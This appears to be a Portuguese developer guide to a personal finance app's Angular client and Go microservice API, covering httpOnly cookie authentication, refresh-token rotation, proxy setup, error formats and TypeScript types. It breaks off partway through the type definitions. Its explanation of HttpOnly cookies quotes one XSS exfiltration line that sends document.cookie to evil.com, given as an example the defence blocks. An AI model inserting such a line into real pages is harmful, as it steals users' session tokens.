






---

# C. Guia completo atualizado — `docs/api-guide-angular.md` v3.0

> **Mudanças vs v2.0:**
> - Sem BFF. Cookies httpOnly setados **pelo próprio backend Go**.
> - Novo endpoint `GET /v1/auth/session` para bootstrap do app.
> - `AuthService` reescrito (bootstrap via session, response `{ ok: true }`).
> - `AuthService.refreshToken()` serializado com `shareReplay`.
> - Middleware Go unificado (aceita cookie **ou** Bearer).
> - Explicação detalhada de como cookie funciona.
> - Removida recomendação de BFF como caminho principal (movida pra Apêndice).

---

## 1. Visão Geral do Sistema

### 1.1 Domínio

Aplicação de **gestão financeira pessoal**. O usuário registra transações (entradas/saídas), organiza em categorias, cria metas financeiras com progresso automático e consulta relatórios de balanço.

### 1.2 Entidades e relacionamentos



- `USER` — identidade e autenticação
- `CATEGORY` — classifica transações como `input` ou `output`. Pode estar vinculada a uma `GOAL`
- `TRANSACTION` — movimentação financeira com categoria obrigatória
- `GOAL` — meta com valor-alvo, deadline e status
- `GOAL_TRANSACTION` — vínculo N:N entre metas e transações
- `REFRESH_TOKEN` — controle de sessão com family (rotação)

### 1.3 Fluxo de dados



---

## 2. Autenticação e Autorização

### 2.1 Fluxo completo

1. **Signup** → `POST /v1/users` (sem retornar token)
2. **Login** → `POST /v1/auth` → **backend seta dois cookies httpOnly** (`access_token`, `refresh_token`) e retorna `{ ok: true }`
3. **Requisições protegidas** → browser anexa cookie automaticamente; middleware valida JWT
4. **Expiração do access** → qualquer 401 → interceptor chama `POST /v1/auth/refresh` → backend lê cookie de refresh, rotaciona, seta novos cookies
5. **Logout** → `POST /v1/auth/logout` → backend revoga família, limpa cookies
6. **Bootstrap do app** → `GET /v1/auth/session` diz se há sessão viva sem efeito colateral

### 2.2 Onde o token viaja

| Token | Onde fica | Quem lê | Quem escreve |
|---|---|---|---|
| `access_token` | Cookie httpOnly | Backend Go (middleware) | `ms_auth` no `Set-Cookie` |
| `refresh_token` | Cookie httpOnly | `ms_auth` no `/refresh` e `/logout` | `ms_auth` no `Set-Cookie` |

**⚠️ JavaScript no browser NÃO acessa os cookies.** `document.cookie` não lista tokens httpOnly. O Angular **nunca vê** o token — ele só recebe `{ ok: true }`.

### 2.3 Por que cookies funcionam (a mágica)

#### Cookie não é escopado por porta

`Set-Cookie: access_token=...; Domain=localhost; Path=/` — não existe `Port=` no cookie. Um cookie setado por `localhost:4001` é enviado pra `localhost:4002`, `:4003`, `:4004`. Os quatro microserviços leem o mesmo cookie **sem configurar nada**.

#### Browser anexa automaticamente

Depois que o cookie está guardado, toda requisição same-origin carrega `Cookie: access_token=...` sozinha. O Angular não precisa montar `Authorization: Bearer`.

#### `HttpOnly` esconde do JS, mas não do browser

`document.cookie` **não lista** o cookie. Um XSS não consegue exfiltrar o token via `fetch('https://evil.com/?t='+document.cookie)`. Mas o browser continua enviando normalmente.

#### Proxy de dev transforma tudo em same-origin

Em dev, o Angular fala com `localhost:4200`. O `proxy.conf.json` reescreve `/api/auth` → `localhost:4001/v1/auth`. Pro browser, tudo é `localhost:4200`. Sem CORS, sem preflight, sem `SameSite` bloqueando. O proxy repassa `Cookie` e `Set-Cookie` nos dois sentidos.

```
[Login]
Browser → POST localhost:4200/api/auth
              ↓ (proxy)
        → POST localhost:4001/v1/auth
        ← 200 + Set-Cookie: access_token=...; HttpOnly
              ↓ (proxy repassa)
        ← 200 + Set-Cookie: access_token=...; HttpOnly
Browser guarda cookie no domínio "localhost"

[Próxima request]
Browser → GET localhost:4200/api/transactions
         + Cookie: access_token=...   ← automático
              ↓ (proxy)
        → GET localhost:4003/v1/transactions
         + Cookie: access_token=...   ← proxy repassou
        ← 200 [...]
```

> **Por que `withCredentials: true` ainda importa?**
> Hoje, via proxy, é no-op (same-origin). Mas no dia que front e API ficarem em origens diferentes, o browser só envia cookies cross-origin se `withCredentials` estiver setado. Deixar desde já é defesa em profundidade.

### 2.4 Refresh token rotation

O backend usa **refresh token family**: cada refresh gera novo refresh e marca o antigo como revogado. Se um refresh **já revogado** for usado novamente (indício de roubo), **toda a família é revogada** — usuário precisa logar de novo.

**Implicações pro front:**

- **Serializa refresh** — dois 401 simultâneos **não podem** disparar dois refreshes em paralelo, senão o segundo usa um token já revogado e revoga a família.
- Trate 401 no access → refresh **uma vez** → se falhar, logout.

**Interceptor funcional:**

```ts
// src/app/core/interceptors/auth.interceptor.ts
import { HttpErrorResponse, HttpInterceptorFn } from '@angular/common/http';
import { inject } from '@angular/core';
import { catchError, switchMap, throwError } from 'rxjs';
import { AuthService } from '../services/auth.service';

// Endpoints de auth que NÃO devem disparar refresh automático.
// Sem isso, um 401 do /refresh chamaria refresh de novo — loop.
function isAuthEndpoint(url: string): boolean {
  return (
    url.includes('/api/auth') ||
    url.includes('/api/auth/refresh') ||
    url.includes('/api/auth/logout') ||
    url.includes('/api/auth/session')
  );
}

export const authInterceptor: HttpInterceptorFn = (req, next) => {
  const auth = inject(AuthService);
  const cloned = req.clone({ withCredentials: true });

  return next(cloned).pipe(
    catchError((err: HttpErrorResponse) => {
      if (err.status === 401 && !isAuthEndpoint(req.url)) {
        return auth.refreshToken().pipe(
          switchMap(() => next(cloned)),
          catchError(() => {
            auth.logout();
            return throwError(() => err);
          }),
        );
      }
      return throwError(() => err);
    }),
  );
};
```

### 2.5 Session bootstrap — por que existe

**O problema:** toda vez que o Angular reinicia (F5, nova aba), `_isAuthenticated` volta pra `false`. O cookie httpOnly pode estar lá, válido — mas o SPA não tem como saber sem perguntar.

**A solução:** `GET /v1/auth/session` no `constructor` do `AuthService`. Retorna `{ authenticated: boolean }`. Não rotaciona refresh, não escreve no banco — só valida o JWT do cookie.

```
[Boot do app]
  /session ──► seta isAuthenticated
    │
    ▼
[Uso normal]
  guard lê signal (sem request)
    │
    ▼
  request → 401? → interceptor → /refresh → se falhar → logout
```

**Session é chamado uma vez só.** Nunca no guard, nunca no interceptor.

> **Por que `/session` sempre 200?** Porque "não estou logado" não é erro — é resposta. 200 evita que o interceptor interprete como 401 e dispare refresh desnecessário.

### 2.6 Autorização

- Rotas públicas: `/v1/auth/*`, `POST /v1/users`, `/health`, `/metrics`
- Todas as demais exigem `RequireActivatedUser` — **usuário com `activated=false` recebe 403** mesmo com token válido
- Não há roles — é single-user por token

---

## 3. Convenções da API

### 3.1 Base URL

Cada microserviço tem sua própria porta. **Não há API Gateway.**

```ts
// environment.ts (dev)
export const environment = {
  production: false,
  apiUrl: 'http://localhost:4200/api',
  authUrl: 'http://localhost:4001',
  categoryUrl: 'http://localhost:4002',
  transactionUrl: 'http://localhost:4003',
  goalUrl: 'http://localhost:4004',
};
```

**Proxy de dev (`proxy.conf.json`):**

```json
{
  "/api/auth":         { "target": "http://localhost:4001", "changeOrigin": true, "pathRewrite": { "^/api/auth": "/v1/auth" } },
  "/api/categories":   { "target": "http://localhost:4002", "changeOrigin": true, "pathRewrite": { "^/api/categories": "/v1/categories" } },
  "/api/transactions": { "target": "http://localhost:4003", "changeOrigin": true, "pathRewrite": { "^/api/transactions": "/v1/transactions" } },
  "/api/goals":        { "target": "http://localhost:4004", "changeOrigin": true, "pathRewrite": { "^/api/goals": "/v1/goals" } }
}
```

> **⚠️** Em produção, reverse proxy (Nginx/Traefik) com prefixo por serviço (`/auth`, `/category`...) consolida tudo numa origem única. Cookies `SameSite=Strict; Secure` funcionam direto.

### 3.2 Envelope de resposta

**Listas** sempre embrulhadas:

```json
{
  "content": [ ... ],
  "metadata": {
    "current_page": 1,
    "page_size": 20,
    "first_page": 1,
    "last_page": 5,
    "total_records": 100
  }
}
```

**Shape confirmado** (`shared/utils/filters/filters.go`):

```go
type Metadata struct {
    CurrentPage  int `json:"current_page,omitempty"`
    PageSize     int `json:"page_size,omitempty"`
    FirstPage    int `json:"first_page,omitempty"`
    LastPage     int `json:"last_page,omitempty"`
    TotalRecords int `json:"total_records,omitempty"`
}
```

> **⚠️ GOTCHA — todos os campos têm `omitempty`**: quando **não há registros**, o backend retorna `Metadata{}` — **`metadata` vem como `{}` vazio**.
>
> Trate `metadata` como `Partial<PaginationMetadata>`:
>
> ```ts
> const lastPage = metadata.last_page ?? 1;
> const total = metadata.total_records ?? 0;
> ```

**Item único**: objeto direto (sem envelope).

### 3.3 Paginação

| Param | Default | Limite | Descrição |
|---|---|---|---|
| `page` | `1` | `1` a `10.000.000` | Página atual |
| `page_size` | `20` | `1` a `100` | Itens por página |
| `sort` | `id` | — | Campo + direção (`-` = DESC). Safelist por recurso |
| `search` | `""` | — | Busca textual (nem todo endpoint tem) |

**Sorts suportados por recurso:**

| Recurso | Sorts permitidos |
|---|---|
| `users` | `id`, `name`, `-id`, `-name` |
| `categories` | `id`, `name`, `-id`, `-name` |
| `transactions` | `id`, `amount`, `-id`, `-amount` |
| `goals` | `id`, `name`, `-id`, `-name` |
| `goals_transactions` | `id`, `name`, `-id`, `-name` |

### 3.4 Formato de erros

O backend tem **dois formatos distintos**.

#### 3.4.1 Erros gerais (HTTPError)

```json
{
  "path": "/v1/auth",
  "status": "Unauthorized",
  "message": "invalid authentication credentials"
}
```

#### 3.4.2 Erros de validação (422 Unprocessable Entity)

```json
{
  "path": "/v1/users",
  "status": "Unprocessable Entity",
  "message": "validation failed",
  "errors": {
    "email": "must be a valid email address",
    "password": "must be at least 8 bytes long"
  }
}
```

> **⚠️ Validação NÃO é 400 — é 422.**

### 3.5 Códigos HTTP usados no backend

| Código | Quando | Corpo |
|---|---|---|
| `400` | JSON malformado / bad request genérico | HTTPError shape |
| `401` | Credenciais inválidas, token ausente/expirado | HTTPError shape |
| `403` | Conta inativa, sem permissão | HTTPError shape |
| `404` | Recurso não encontrado | HTTPError shape |
| `405` | Método não permitido | HTTPError shape |
| `409` | `ErrEditConflict` (versão desatualizada) | HTTPError shape |
| `422` | **Validação** ou **constraint de unicidade** | ValidationError shape |
| `429` | Rate limit | HTTPError shape |
| `500` | Erro interno | HTTPError shape |
| `504` | Timeout | HTTPError shape |

---

## 4. Catálogo de Endpoints

### 4.1 `ms_auth` (porta 4001)

#### `POST /v1/auth` — Login

**Body:** `{ "email": "user@example.com", "password": "Senha123A" }`

**Response 200:** `{ "ok": true }` + dois headers `Set-Cookie`:

```
Set-Cookie: access_token=eyJ...; Path=/; Max-Age=900; HttpOnly; SameSite=Lax
Set-Cookie: refresh_token=eyJ...; Path=/; Max-Age=2592000; HttpOnly; SameSite=Lax
```

**Erros:** `400` (JSON malformado), `401` (`ErrInvalidCredentials`), `403` (`ErrInactiveAccount`)

#### `POST /v1/auth/refresh` — Renovar tokens

**Body:** vazio `{}` (o refresh token vem do **cookie**).

**Response 200:** `{ "ok": true }` + novos `Set-Cookie`.

**Erros:** `401` (sem cookie de refresh ou refresh inválido/revogado/expirado — backend também limpa cookies).

#### `POST /v1/auth/logout` — Logout

**Body:** vazio.

**Response 204** + `Set-Cookie` com `Max-Age=0` (limpa os dois cookies).

#### `GET /v1/auth/session` — Checar sessão

**Response 200:** `{ "authenticated": boolean }`

**Sempre 200.** Nunca 401. Não rotaciona tokens.

#### `POST /v1/users` — Cadastro

**Body:** `{ "email": "user@example.com", "password": "Senha123A", "name": "João" }`

**Response 201:** `{ "id": "uuid", "email": "...", "name": "...", "version": 1 }`

**Erros:** `400`, `422` (validação ou email duplicado).

---

**Snippet Angular — `AuthService`:**

```ts
// src/app/core/services/auth.service.ts
import { HttpClient } from '@angular/common/http';
import { computed, inject, Injectable, signal } from '@angular/core';
import { Router } from '@angular/router';
import { catchError, finalize, Observable, of, shareReplay, tap } from 'rxjs';

interface OkResponse {
  ok: boolean;
}

@Injectable({ providedIn: 'root' })
export class AuthService {
  private http = inject(HttpClient);
  private router = inject(Router);

  private readonly _isAuthenticated = signal(false);
  readonly isAuthenticated = computed(() => this._isAuthenticated());

  // Serialização do refresh: dois 401 simultâneos compartilham a mesma
  // requisição em vez de disparar dois POSTs concorrentes.
  // Sem isso, o backend revoga a família inteira (rotação).
  private refresh$?: Observable<OkResponse>;

  constructor() {
    // Bootstrap: pergunta ao backend se o cookie que está no browser
    // ainda é válido. Sem isso, F5 sempre cairia em /login.
    this.http
      .get<{ authenticated: boolean }>('/api/auth/session')
      .pipe(catchError(() => of({ authenticated: false })))
      .subscribe((r) => this._isAuthenticated.set(r.authenticated));
  }

  login(email: string, password: string) {
    return this.http
      .post<OkResponse>('/api/auth', { email, password })
      .pipe(tap(() => this._isAuthenticated.set(true)));
  }

  refreshToken(): Observable<OkResponse> {
    this.refresh$ ??= this.http
      .post<OkResponse>('/api/auth/refresh', {})
      .pipe(
        finalize(() => (this.refresh$ = undefined)),
        shareReplay({ bufferSize: 1, refCount: false }),
      );
    return this.refresh$;
  }

  logout() {
    this.http.post('/api/auth/logout', {}).subscribe({
      complete: () => {
        this._isAuthenticated.set(false);
        this.router.navigate(['/login']);
      },
      error: () => {
        // Mesmo se o backend falhar, do lado do browser o usuário está deslogado.
        this._isAuthenticated.set(false);
        this.router.navigate(['/login']);
      },
    });
  }
}
```

**Snippet Angular — `LoginComponent`:**

```ts
// src/app/features/auth/login/login.component.ts
import { Component, inject, signal } from '@angular/core';
import { FormsModule } from '@angular/forms';
import { Router } from '@angular/router';
import { HttpErrorResponse } from '@angular/common/http';
import { AuthService } from '../../../core/services/auth.service';

@Component({
  selector: 'app-login',
  standalone: true,
  imports: [FormsModule],
  template: `
    <div class="min-h-screen flex items-center justify-center bg-gradient-to-br from-slate-50 to-slate-100 p-4">
      <div class="w-full max-w-md">
        <div class="rounded-2xl border border-slate-200 bg-white p-8 shadow-xl">
          <div class="mb-8 text-center">
            <div class="mx-auto mb-4 flex h-14 w-14 items-center justify-center rounded-2xl bg-gradient-to-br from-emerald-400 to-teal-500 shadow-md">
              <span class="text-xl font-bold text-white">MF</span>
            </div>
            <h1 class="text-2xl font-bold tracking-tight text-slate-900">Minhas Finanças</h1>
            <p class="mt-1 text-sm text-slate-500">Entre para gerenciar suas finanças</p>
          </div>

          <form (ngSubmit)="onSubmit()" class="space-y-5">
            <div>
              <label for="email" class="mb-1.5 block text-sm font-medium text-slate-700">Email</label>
              <input
                id="email" type="email" [(ngModel)]="email" name="email" required
                autocomplete="email" placeholder="seu@email.com"
                class="w-full rounded-lg border border-slate-300 bg-white px-3 py-2.5 text-slate-900 placeholder:text-slate-400 transition-all duration-150 focus:outline-none focus:border-emerald-500 focus:ring-2 focus:ring-emerald-500/20 disabled:opacity-60 disabled:cursor-not-allowed"
              />
              @if (fieldErrors()['email']) {
                <p class="mt-1.5 flex items-center gap-1 text-xs text-red-600">
                  <span aria-hidden>⚠</span> {{ fieldErrors()['email'] }}
                </p>
              }
            </div>

            <div>
              <div class="mb-1.5 flex items-center justify-between">
                <label for="password" class="block text-sm font-medium text-slate-700">Senha</label>
                <a href="#" class="text-xs text-emerald-600 hover:text-emerald-700 hover:underline">Esqueceu?</a>
              </div>
              <input
                id="password" type="password" [(ngModel)]="password" name="password" required
                autocomplete="current-password" placeholder="••••••••"
                class="w-full rounded-lg border border-slate-300 bg-white px-3 py-2.5 text-slate-900 placeholder:text-slate-400 transition-all duration-150 focus:outline-none focus:border-emerald-500 focus:ring-2 focus:ring-emerald-500/20 disabled:opacity-60 disabled:cursor-not-allowed"
              />
              @if (fieldErrors()['password']) {
                <p class="mt-1.5 flex items-center gap-1 text-xs text-red-600">
                  <span aria-hidden>⚠</span> {{ fieldErrors()['password'] }}
                </p>
              }
            </div>

            @if (error()) {
              <div role="alert" class="flex items-start gap-2 rounded-lg border border-red-200 bg-red-50 px-3 py-2.5 text-sm text-red-700">
                <span aria-hidden class="shrink-0">⚠</span>
                <span>{{ error() }}</span>
              </div>
            }

            <button
              type="submit" [disabled]="isPending()"
              class="w-full rounded-lg bg-emerald-600 px-4 py-2.5 font-medium text-white shadow-sm transition-all duration-150 hover:bg-emerald-700 focus:outline-none focus:ring-2 focus:ring-emerald-500 focus:ring-offset-2 active:scale-[0.98] disabled:opacity-60 disabled:cursor-not-allowed disabled:active:scale-100"
            >
              {{ isPending() ? 'Entrando…' : 'Entrar' }}
            </button>
          </form>
        </div>
        <p class="mt-6 text-center text-xs text-slate-400">
          Não tem conta? <a routerLink="/signup" class="font-medium text-emerald-600 hover:text-emerald-700 hover:underline">Cadastre-se</a>
        </p>
      </div>
    </div>
  `,
})
export class LoginComponent {
  private auth = inject(AuthService);
  private router = inject(Router);

  email = '';
  password = '';
  isPending = signal(false);
  error = signal<string | null>(null);
  fieldErrors = signal<Record<string, string>>({});

  onSubmit() {
    this.isPending.set(true);
    this.error.set(null);
    this.fieldErrors.set({});

    this.auth.login(this.email, this.password).subscribe({
      next: () => this.router.navigate(['/dashboard']),
      error: (err: HttpErrorResponse) => {
        this.isPending.set(false);
        if (err.status === 422 && err.error?.errors) {
          this.fieldErrors.set(err.error.errors);
          this.error.set(err.error.message ?? 'Erro de validação');
        } else {
          this.error.set(err.error?.message ?? 'Falha no login');
        }
      },
      complete: () => this.isPending.set(false),
    });
  }
}
```

#### `ms_category` — resumo

- `POST /v1/categories` — criar
- `GET /v1/categories` — listar
- `GET /v1/categories/{id}` — detalhe
- `PUT /v1/categories/{id}` — atualizar
- `DELETE /v1/categories/{id}` — remover (bloqueado se `goal_id`)

#### `ms_transaction` — resumo

- `POST /v1/transactions` — criar
- `GET /v1/transactions` — listar com filtros (`page`, `page_size`, `sort`, `start_date`, `end_date`, `category_id`, `type`)
- `GET /v1/transactions/{id}` — detalhe
- `GET /v1/transactions/summary` — resumo financeiro
- `PUT /v1/transactions/{id}` — atualizar (**inclui `version`** — 409 se desatualizada)
- `DELETE /v1/transactions/{id}` — deletar

#### `ms_goal` — resumo

- `POST /v1/goals` — criar
- `GET /v1/goals` — listar (filtro `status` em **PT-BR**, response em **EN**)
- `GET /v1/goals/{id}` — detalhe
- `GET /v1/goals/report/{id}` — relatório (`progress` em escala 0–100)
- `PUT /v1/goals/{id}` — atualizar
- `DELETE /v1/goals/{id}` — deletar

---

## 5. Tipos TypeScript — `src/app/core/models/api.types.ts`

```ts
// src/app/core/models/api.types.ts

/* ============ Envelope ============ */
export interface Paginated<T> {
  content: T[];
  /** ⚠️ Vem como {} quando totalRecords === 0 (todos os campos têm omitempty) */
  metadata: Partial<PaginationMetadata>;
}

export interface PaginationMetadata {
  current_page: number;
  page_size: number;
  first_page: number;
  last_page: number;
  total_records: number;
}

/* ============ Erros ============ */
export interface HttpErrorResponse {
  path: string;
  status: string;
  message: string;
}

export interface ValidationErrorResponse {
  path: string;
  status: 'Unprocessable Entity';
  message: 'validation failed';
  errors: Record<string, string>;
}

export type ApiErrorResponse = HttpErrorResponse | ValidationErrorResponse;

/* ============ Auth ============ */
export interface LoginInput {
  email: string;
  password: string;
}

export interface OkResponse {
  ok: boolean;
}

export interface SessionResponse {
  authenticated: boolean;
}

/* ============ User ============ */
export interface SignUpInput {
  email: string;
  password: string;
  name: string;
}

export interface User {
  id: string;
  email: string;
  name: string;
  version: number;
}

/* ============ Category ============ */
export type CategoryType = 'input' | 'output';

export interface Category {
  id?: string | null;
  user_id?: string | null;
  name?: string | null;
  type: CategoryType | null;
  goal_id?: string | null;
}

export interface CreateCategoryInput {
  name: string;
  type: CategoryType;
  goal_id?: string | null;
}

/* ============ Goal ============ */
export type GoalStatus = 'IN_PROGRESS' | 'COMPLETED' | 'EXPIRED' | 'CANCELED';

export type GoalStatusFilter =
  | 'em andamento'
  | 'concluído'
  | 'vencido'
  | 'cancelado';

export interface Goal {
  id: string;
  user_id: string;
  name: string;
  target_amount: number;
  current_amount: number;
  status: GoalStatus;
  deadline: string;
  description?: string | null;
  created_at: string;
}

export interface CreateGoalInput {
  name: string;
  target_amount: number;
  deadline: string;
  description?: string;
}

export interface GoalReport {
  goal: Goal;
  total_contributed: number;
  /** ⚠️ 0 a 100 (não 0 a 1). Ex: 0.012 = 0.012% */
  progress: number;
  value_per_month: number;
  remaining_amount: number;
  transactions_count: number;
  last_contribution?: string | null;
}

/* ============ GoalTransaction ============ */
